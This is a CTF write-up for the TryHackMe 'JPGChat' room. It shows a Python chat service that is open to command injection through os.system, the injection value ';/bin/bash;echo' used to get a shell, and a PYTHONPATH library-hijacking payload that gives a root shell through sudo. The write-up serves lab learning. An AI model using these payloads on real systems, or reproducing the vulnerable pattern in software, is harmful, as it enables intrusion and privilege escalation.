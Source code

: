 ```yaml
---
layout: default
title: "TryHackMe - JPGChat Writeup"
permalink: /writeups/tryhackme/jpgchat
---
```


![TryHackMe: JPGChat (Easy)](images/JPGChat.png)
<h1><ins>TryHackMe: JPGChat Writeup</ins></h1>

**Date:** 29/11/2022\
**Author:** [acfirthh](https://github.com/acfirthh)

**Machine Name:** JPGChat\
**Difficulty:** Easy\
**Link to Machine:** [TryHackMe - JPGChat](https://tryhackme.com/room/jpgchat)

## NMAP Scan
```
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-29 20:26 GMT
Nmap scan report for 10.10.63.208
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```
From the NMAP scan I can see that there is some sort of interactive service running on port 3000. It looks like it could be a messaging service. It also says that the source code of the service can be found on the admin's github. A little bit of searching around and I found [it](https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py).

Theres a snippet in the code that is vulnerable to command injection.

The code:
```
def report_form():
	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

Looking again at what was returned from the NMAP scan, it gives the user an option to report someone to admins by sending a message saying **[REPORT]** which will call the function **report_form()**. It then prompts the user to enter their name and their report that the admins will read.

It works by directly concatenating the user's input into a system command to echo data into a file, which is run using `os.system()`.

We can exploit this by entering either our name or report information as this command: `;/bin/bash;echo`. This will spawn a shell for us to run any system commands we want.

## Initial Foothold
To interact with the service, I used the netcat command: `nc <ip> 3000`

I then send the message **[REPORT]** and enter a random name, and then the command mentioned above as the report. A shell is spawned and I stabilize the shell using `python -c 'import pty;pty.spawn("/bin/bash")'`.

From the command `whoami`, I can see that I have a shell as the user **wes**. Changing directory into **/home/wes**, I see that there is a file `user.txt` which is the first flag needed for the CTF.

## Privilege Escalation (root)
Running the command `sudo -l` shows me that the user **wes** has access to the **PYTHONPATH** environment variable and can run `/usr/bin/python3 /opt/development/test_module.py` as root with no password.

Reading the source code of `/opt/development/test_module.py` I see that it uses a module named **compare**. As we have access to the **PYTHONPATH** environment variable, we can exploit this using _Python Library Hijacking_. We can create our own **compare.py** file in our home directory, modify the **PYTHONPATH** variable, and this will make the **test_module.py** file import _our_ module and run any code that we write.

### Exploitation
- Create a file named **compare.py** in `/home/wes` containing the code
```
import subprocess
subprocess.call(['/bin/sh', '-i'])
```
This will spawn a shell when the module is imported, and as the command is run using sudo permissions, the module will also be run using sudo permissions, in turn spawning a root shell.

- Then run the command: `export PYTHONPATH=/home/wes` to set the **PYTHONPATH** environment variable to our home directory
- Finally, run the command: `sudo /usr/bin/python3 /opt/development/test_module.py`

SUCCESS! This will import _our_ **compare.py** module, run the code we wrote, and now we have a root shell!

Change directory to `/root` and read the final flag needed for the CTF.